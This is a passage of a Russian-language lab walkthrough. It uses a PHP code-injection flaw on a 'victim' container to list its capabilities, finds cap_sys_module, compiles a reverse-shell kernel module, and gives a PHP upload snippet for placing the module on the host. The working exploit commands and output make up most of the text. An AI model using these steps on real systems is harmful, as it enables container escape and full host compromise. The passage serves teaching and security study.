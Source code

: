 Теперь посмотрим доступные разрешения:

```
vagrant@hacker:~$ curl -G 192.168.50.4 --data-urlencode "code=system('capsh --print');"
  <h1> Hello world!</h1>
  Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
  Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
  Securebits: 00/0x0/1'b0
   secure-noroot: no (unlocked)
   secure-no-suid-fixup: no (unlocked)
   secure-keep-caps: no (unlocked)
  uid=0(root)
  gid=0(root)
  groups=
  <br>
```

Наличие в выводе `cap_sys_module` говорит о том что мы можем воспользоваться специально подготовленным модулем для
запуска revers shell на атакуемой системе.

Соберём специально подготовленный модуль для получения shell на хостовой системе.

Так как хосты `victim` и `hacker` имеют одну и туже ОС, то мы можем откомпилировать модуль на хосте `hacker` и записать
его на хост
`victim` через RCE. Для сборки модуля выполним следующие команды:

```
vagrant@hacker:~$ cd /vagrant/hacker
vagrant@hacker:/vagrant/hacker$ sudo apt-get install linux-headers-`uname -r`
vagrant@hacker:/vagrant/hacker$ make
  make -C /lib/modules/4.19.0-9-amd64/build M=/vagrant/hacker modules
  make[1]: Entering directory '/usr/src/linux-headers-4.19.0-9-amd64'
    CC [M]  /vagrant/hacker/reverse-shell.o
    Building modules, stage 2.
    MODPOST 1 modules
    CC      /vagrant/hacker/reverse-shell.mod.o
    LD [M]  /vagrant/hacker/reverse-shell.ko
  make[1]: Leaving directory '/usr/src/linux-headers-4.19.0-9-amd64'
```

Загрузим эксплоит на хост `victim`. Для этого передадим файл в теле HTTP запроса. Но так как наш эксплоит работает с
аргументом `code`, который передается только в качестве GET аргумента. И целевая программа абсолютно не умеет
обрабатывать POST аргументы. Поэтому мы сформируем линк в котором в качестве значения аргумента `code` укажим программу,
которая будет обрабатывать POST аргументы. Текст программы будет выглядить так:

```php
move_uploaded_file($_FILES['shell']['tmp_name'], 'reverse-shell.ko');
```
